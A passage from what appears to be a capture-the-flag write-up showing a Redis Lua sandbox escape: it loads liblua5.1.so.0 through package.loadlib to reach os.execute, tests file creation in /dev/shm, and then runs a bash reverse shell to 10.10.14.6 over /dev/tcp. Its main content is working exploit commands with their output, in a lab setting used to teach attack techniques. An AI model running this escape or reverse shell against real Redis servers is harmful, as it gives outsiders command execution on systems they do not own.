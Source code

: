 

`os_l` is a nil value. That's where the library is loaded. Is that
library present? It turns out not:



    dan_smith@shared:~$ ls /usr/lib/x86_64-linux-gnu/liblua5.1.so
    ls: cannot access '/usr/lib/x86_64-linux-gnu/liblua5.1.so': No such file or directory
    dan_smith@shared:~$ ls /usr/lib/x86_64-linux-gnu/liblua5.1.so*
    /usr/lib/x86_64-linux-gnu/liblua5.1.so.0  /usr/lib/x86_64-linux-gnu/liblua5.1.so.0.0.0



But `liblua5.1.so.0` is, in the same directory. I'll try that:



    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_poc"); return 0' 0 
    (integer) 0



It seems to work. But there's no file in `/tmp`:



    dan_smith@shared:~$ ls /tmp/
    systemd-private-bec33c1489384520996f91f25f4fa934-redis-server.service-bo2wJh
    systemd-private-bec33c1489384520996f91f25f4fa934-systemd-logind.service-yzWFZh
    systemd-private-bec33c1489384520996f91f25f4fa934-systemd-timesyncd.service-n0pL5g
    vmware-root_398-558012343



Writing to `/tmp` can be weird. I'll try `/dev/shm`:



    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /dev/shm/redis_poc"); return 0' 0 
    (integer) 0



It works:



    dan_smith@shared:~$ ls /dev/shm/
    redis_poc



#### Shell

I can use this to get a reverse shell:



    127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("bash -c \'bash -i >& /dev/tcp/10.10.14.6/443 0>&1\'"); return 0' 0



It hangs, but at `nc`:
